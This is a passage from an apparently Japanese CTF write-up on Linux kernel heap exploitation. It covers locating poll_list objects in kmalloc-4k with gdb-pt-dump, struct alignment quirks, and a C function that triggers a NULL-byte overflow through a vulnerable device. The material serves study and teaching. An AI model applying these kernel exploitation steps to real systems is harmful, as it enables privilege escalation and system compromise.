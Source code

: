 ![poll_list in kmalloc-4k](./polllist-4k.png)

今回はpollするイベントは`POLLERR`(`=0x0008`)で、使った`fd`は`0x00000004`なので、バイト列`0x0000000400080000`をニードルとして検索できます(`pt -sb 08000000040000000800000004000000 -align 16`。まぁ、`pt -sb fe01000004000000 -align 8`のほうが良さそう)。ところで、`struct poll_list`において、`struct pollfd[]`って8byteアラインされないんですね。おかげで`poll_list`がどこにも見つからない...!と発狂する羽目になりました。あ、ところでこの`pt`コマンドは[gdb-pt-dump](https://github.com/martinradev/gdb-pt-dump)のことです。

![pahole of pollfd](./pahole-pollfd.png)

![pahole of poll_list](./pahole-polllist.png)

さぁさぁ、とりあえずは各構造体が意図したサイズのキャッシュに入っていることが分かりました。
この状態で、一旦NULL-byte overflowさせてみます:
```overflow.c
void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0;
}
```
